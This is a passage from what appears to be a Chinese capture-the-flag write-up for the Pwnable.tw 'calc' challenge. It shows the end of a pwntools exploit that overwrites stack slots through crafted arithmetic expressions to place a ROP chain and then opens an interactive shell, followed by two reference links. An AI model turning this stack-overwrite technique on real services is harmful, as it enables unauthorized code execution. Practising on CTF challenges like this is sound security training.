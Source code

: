 ```
      c = int(p.recv())
      if c < 0:
          c += 0x100000000
  
      log.success("# before modification at %#x is %#x"%(m_esp+ 4*(i-362), c))
      log.success("+++var is %#x"%rop_vars[i-361])
      diff =  rop_vars[i-361] -c
      if diff < 0:
          log.success('+'+str(i)+str(diff))
          p.sendline('+'+str(i)+str(diff))
      else:
          log.success('+'+str(i)+'+'+str(diff))
          p.sendline('+'+str(i)+'+'+str(diff))
      content = int(p.recv())
      log.success("# After modification at %#x is %#x"%(m_esp+ 4*(i-362), content))
  
  p.sendline("pwn")
  p.interactive()
  p.close()
             
```

# 参考
[1] [Pwnable.tw刷题之calc](http://www.freebuf.com/articles/others-articles/132283.html)
[2] [Pwnable.tw calc](http://www.jianshu.com/p/d59a41d85af1)